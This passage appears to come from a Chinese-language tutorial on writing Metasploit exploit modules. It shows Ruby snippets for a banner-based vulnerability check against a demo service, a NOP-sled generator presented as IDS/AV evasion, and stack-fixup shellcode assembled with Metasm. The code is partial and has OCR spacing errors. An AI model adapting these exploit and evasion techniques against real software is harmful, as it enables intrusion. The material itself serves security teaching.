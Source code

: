 在以下代码中，`check()`函数确定目标是否易受攻击：

```
end 

def check 
connect 
disconnect 

if (banner =~ /BigFoolCat/) 
return Exploit::CheckCode::Vulnerable 
end 
return Exploit::CheckCode::Safe 
end 
```

下面的代码定义了一个生成 NOP 底座的函数，以帮助进行 IDS/IPS/AV 规避。有些人认为 NOP 雪橇是一个快速和肮脏的解决这个问题，并相信他们不应该被使用，除非有一个特别好的理由。为简单起见，在编写模块的示例中，我们将函数保留在代码中：

```
defmake_nops(num); "C" * num; end 
```

下面的过程修复了可从中执行有效负载的返回地址。从技术上讲，它解决了堆栈寻址问题：

```
def exploit 
connect_login 

    # NOTE: 
    # This exploit jumps to ebp, which happens to point at a 
    partial version of 
    # the 'buf' string in memory. The fixRet below fixes up the 
    code stored on the 
    # stack and then jumps there to execute the payload. The value 
    inesp is used 
    # with an offset for the fixup. 
fixRet_asm = %q{ 
movedi,esp 
subedi, 0xfffffe10 
mov [edi], 0xfeedfed5 
addedi, 0xffffff14 
jmpedi 
    } 
fixRet = Metasm::Shellcode.assemble(Metasm::Ia32.new, 
fixRet_asm).encode_string 

buf = '' 
```

最初，利用漏洞缓冲区保存编码的返回地址和随机 NOP 指令：

```
print_status("Prepending fixRet...") 
buf<<fixRet 
buf<<make_nops(0x20 - buf.length)
```
